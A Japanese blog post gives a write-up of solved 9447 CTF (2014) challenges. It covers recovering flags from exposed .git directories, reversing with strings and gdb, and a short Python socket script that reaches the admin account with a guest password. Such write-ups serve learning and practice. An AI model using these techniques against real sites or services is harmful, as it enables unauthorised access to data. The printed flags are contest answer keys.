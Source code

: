 ```yaml
---
layout: post
title: 9447 CTF の write-up
categories: [ctf]
date: 2014-12-01 18:29:00 +0900
---
```


ぼっチーム omakase として参加した。最終的に獲得できたポイントは 427 点でチーム順位は 104 位 (登録 988 チーム中) で日本勢の中では 10 位だった。  
tumorous (Web 100), bashful (Web 101), insanity_check (Reversing 1), no strings attached (Reversing 25), europe01 (Exploitation 200) の 5 問を解いた。

## tumorous (Web 100)
- git。
- 手元の .git を見たりして適当に推測
- objects 下のファイルを logs を見ながらダウンロードしていく
- logs だけでは把握しきれないので python で object ファイルを zlib.decompress で展開しながら、出たエラーを元に全部持ってくる
- `git log -p -3`

```
flag: 9447{IM_SITTING_ON_A_PILE_OF_GOLD}
```

## bashful (Web 101)
- git。
- autoindex が見られるので全部ダウンロード
- 適当にディレクトリを作って `git unpack-objects < .../.git/objects/pack/pack-...pack`
- 展開された object ファイルを片っ端から zlib.decompress
- `import zlib; zlib.decompress(open(r'.git/objects/2d/28acf09fc4424f7e1701bd7c8a6df29e6c9fe1', 'rb').read()) # b'blob 45\x009447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}\n'`

```
flag: 9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}
```

## insanity_check (Reversing 1)
- strings
- `strings -a insanity | grep 9447`

```
flag: 9447{This_is_a_flag}
```

## no strings attached (Reversing 25)
- gdb で認証の辺りに breakpoint を置く
- stack を見ると '9' があるのでそこら辺のメモリを見ると 39 00 00 00 みたいな配置が
- 素直に読むと flag

```bash
$ gdb no_strings_attached
gdb-peda$ b *0x08048777
Breakpoint 1 at 0x08048777
gdb-peda$ r
...
[-----stack-----]
...
0004| 0xbfff7744 --> 0x804e448 --> 0x39 ('9')
...
[---------------]
...
Breakpoint 1, 0x08048777 in authenticate ()
gdb-peda$ x/ws 0x804e448
0x804e448: U"9447{you_are_an_international_mystery}"
```
```
flag: 9447{you_are_an_international_mystery}
```

## europe01 (Exploitation 200)
```python
import socket
import time

def main():
  s = socket.create_connection(('europe.9447.plumbing', 9447), 3)
  s.settimeout(3)

  s.recv(1024)
  s.send(b'1\n')

  s.recv(1024)
  s.send(b'guest\n')
  s.recv(1024)
  s.send(b'guest\n')

  s.recv(1024)
  s.send(b'1\n')

  s.recv(1024)
  s.send(b'admin\n')
  s.recv(1024)
  s.send(b'guest\n')

  time.sleep(1)

  s.recv(1024)
  s.send(b'2\n')

  print('[*]', s.recv(1024))

  s.close()

if __name__ == '__main__':
  main()
```
```
flag: 9447{...} (メモし忘れた)
```

